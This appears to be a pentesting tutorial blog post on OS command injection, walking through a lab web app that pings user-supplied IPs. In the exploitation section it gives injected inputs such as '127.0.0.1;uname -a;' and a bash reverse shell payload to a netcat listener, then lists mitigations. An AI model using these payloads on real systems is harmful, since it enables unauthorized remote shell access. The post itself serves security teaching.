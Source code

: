 ```yaml
---
title: Command Injection
date: 2022-01-01 05:49:33 +0800
categories: [WebApp And Api Pentesting, Owasp Top Ten]
tags: [webapp, pentesting, Owasp, cmdi, os, command injection]     # TAG names should always be lowercase
---
```


# Command Injection

***Command Injection*** is a cyber attack that involves executing arbitrary commands on a host operating system (OS). Command injection attacks are possible when an application passes unsafe user supplied data (forms, cookies, HTTP headers etc.) to a system shell. In this attack, the attacker-supplied operating system commands are usually executed with the privileges of the vulnerable application.

# Enumeration

In the below image, we can see that the web interface takes in ip address, pings the ip address and then returns the output to the user. By examining the outputs, we will discover that the backend is using `ping` command to ping a given ip address. 

![cmdi](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/cmdpenlab2.png)

We can attempt to predict the os command that is executed, which may be `ping -c 3 [ip]`. By supplying 127.0.0.1, the command will be something like this `ping -c 3 127.0.0.1`, we can get command execution If the backend passess the supplied input to a system shell without sanitizing it. 

## with `;`

We can determine whether or not our supplied input is directly executed in a system shell using `;`. By suppliying `127.0.0.1;`, the command will be `ping -c 3 127.0.0.1;`, we will get thesame output if our supplied input is executed directly in a system shell,this is because, `;` will not break the command as it is also used to end linux command or to execute nultiple command in one line. 

![cmdi](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/cmdpenlabenum1.png)

The above image shows the output of the executed command, this means our supplied input is directly executed in a system shell and it did'nt break the command as we predicted.

## with `)`

We can determine whether or not our supplied input is directly executed in a system shell using `)`. By suppliying `127.0.0.1)`, the command will be `ping -c 3 127.0.0.1)`, we will not get any output if our supplied input is executed directly in a system shell,this is because, `)` will break the linux command completely.

![cmdi](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/cmdpenlabenum3.png)

The above image didn't show the output of the executed command, this means our supplied input is directly executed in a system shell and it broke the command as we predicted.

# Exploitation

## Executing `uname -a`

Given that our supplied input is directly supplied to a system shell without sanitization, we can execute our own command by taking advantage of `;`, as it is used to execute multiple system command. By suppliying `127.0.0.1;uname -a;`, our command will be something like this `ping -c 3 127.0.0.1;uname -a;`. This will make the backend server to execute two different commands, one is `ping -c 3 127.0.0.1` and the other is `uname -a`

![cmdi](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/cmdpenlab4.png)

From the above image we get the output of the `uname -a` command, which is highlighted in the image.

## Getting Reverse Shell

To get a reverse shell, we used the reverse shell payload below and setup our listener using netcat i.e `nc -nlvp [port]`.

```bash
bash -c '/bin/bash -i >& /dev/tcp/10.42.0.1/10000 0>&1'
```
Then supplied the following `127.0.0.1;bash -c '/bin/bash -i >& /dev/tcp/10.42.0.1/10000 0>&1;` to the vulnerable endpoint.

![cmdi](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/cmdpenlab5.png)

*getting reverse shell*

![cmdi](https://raw.githubusercontent.com/cyberkhalid/cyberkhalid.github.io/main/assets/img/ipentest/cmdpenlabravkali.png)

# Mitigations

- Avoid calling OS commands directly, Instead Use Built-in library functions.
- Escape values added to OS commands specific to each OS
- Applications should run using the lowest privileges that are required to accomplish the necessary tasks.

# References

- [https://portswigger.net/web-security/os-command-injection](https://portswigger.net/web-security/os-command-injection)
- [https://owasp.org/www-community/attacks/Command_Injection](https://owasp.org/www-community/attacks/Command_Injection)
- [https://book.hacktricks.xyz/pentesting-web/command-injection](https://book.hacktricks.xyz/pentesting-web/command-injection)
- [https://cheatsheetseries.owasp.org/cheatsheets/OS_Command_Injection_Defense_Cheat_Sheet.html](https://cheatsheetseries.owasp.org/cheatsheets/OS_Command_Injection_Defense_Cheat_Sheet.html)
